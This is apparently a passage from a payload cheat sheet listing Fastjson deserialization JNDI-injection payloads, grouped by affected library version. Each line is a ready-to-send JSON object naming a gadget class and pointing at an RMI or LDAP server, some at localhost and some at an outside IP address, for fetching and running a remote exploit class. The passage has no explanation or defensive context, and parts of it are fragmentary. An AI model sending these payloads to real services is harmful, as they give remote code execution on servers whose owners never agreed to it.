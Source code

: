 
{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit\"}"

* 1.2.62

```bash
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}
```

* 1.2.66

```bash
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://47.52.233.92:9999/expUseful"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://47.52.233.92:9999/expUseful"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://47.52.233.92:9999/expUseful"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"
java.util.Properties","UserTransaction":"ldap://47.52.233.92:9999/expUseful"}}
```



* RMI

```bash

{"@type":"LLcom.sun.rowset.RowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true} 1.2.42
{"@type":"[com.sun.rowset.RowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true} 1.2.25v1.2.43
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties"："data_source":"rmi://localhost:1099/Exploit"}} 1.2.25
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"rmi://127.0.0.1:1099/Exploit\"}1.2.60
{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit\"} 1.2.60
{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit\"} 1.2.61
{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"rmi://localhost:1099/Exploit\"}  1.2.62
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"rmi://localhost:1099/Exploit\"} AnterosDBCPConfig
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"rmi://localhost:1099/Exploit\"} AnterosDBCPConfig
{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\":{\"UserTransaction\":\"rmi://localhost:1099/Exploit\"}} JtaTransactionConfig
```

